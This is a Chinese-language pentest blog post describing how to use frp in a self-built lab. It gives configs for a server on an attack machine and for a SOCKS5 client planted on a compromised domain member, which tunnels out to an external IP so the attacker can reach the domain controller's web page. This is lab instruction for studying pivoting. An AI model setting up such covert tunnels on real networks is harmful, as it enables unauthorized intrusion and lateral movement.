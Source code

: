 ```yaml
---
layout:     post
title:      frp工具的使用
subtitle:   frp工具的使用
date:       2021-01-18
author:     木已成舟
header-img: img/post-bg-rwd.jpg
catalog: 	 true
tags:
    - 内网渗透
---
```


frp代理工具在实战中用到的场景比较多，因此掌握frp工具进行代理是必不可少的。

## 0x00  网络环境

- 自己搭建了一个域环境，如下图所示，域成员机器（10.10.1.129）通过双网卡和内外网互通。
- 域控是Windows Server 2012 R2（10.10.1.128），域控上安装了phpstudy，为默认页面，域成员是Windows Server 2008 R2（10.10.1.129）。
- 以下内容是基于域成员机器已被拿下的场景。
- 本次实验要达到的目的是通过Windows Server 2008 R2（10.10.1.129）作为跳板访问域控上phpstudy默认页面。

![](../../../../img/20210118135614.png)



## 0x01 配置服务端

首先在攻击机上开一个端口供受害者连接，编辑修改frps.ini文件内容如下：

```
[common]
bind_port = 7777
```

保存并启动服务端：`frps.exe -c ./frps.ini`

![20210118141119](../../../../img/20210118141119.png)



## 0x02 配置客户端

将frp上传至Windows Server 2008 R2（10.10.1.129）主机上，并修改frpc.ini文件。

```
[common]
server_addr = 45.10.20.1 //服务端的IP地址
server_port = 7777  //服务端配置文件中绑定的端口

[plugin_socks]  //设置socks代理
type = tcp
remote_port = 8001
plugin = socks5
plugin_user = mycz
plugin_passwd = xxxx
use_encryption = true
use_compression = true
```

保存并启动客户端（`frpc.exe -c frpc.ini`），返回proxy sucecess说明代理成功：

![20210118142516](../../../../img/20210118142516.png)





## 0x03 proxifier代理

本想着通过浏览器的代理直接设置的，但由于浏览器不支持socks5，还需要借助proxifier工具。

点击【配置文件】-【新建代理服务器】，填写IP、端口、账号密码、进行连接。

![20210118142753](../../../../img/20210118142753.png)



打开浏览器，选择系统代理，成功访问域控安装的phpstudy默认页面。

![20210118143111](../../../../img/20210118143111.png)



![20210118143232](../../../../img/20210118143232.png)







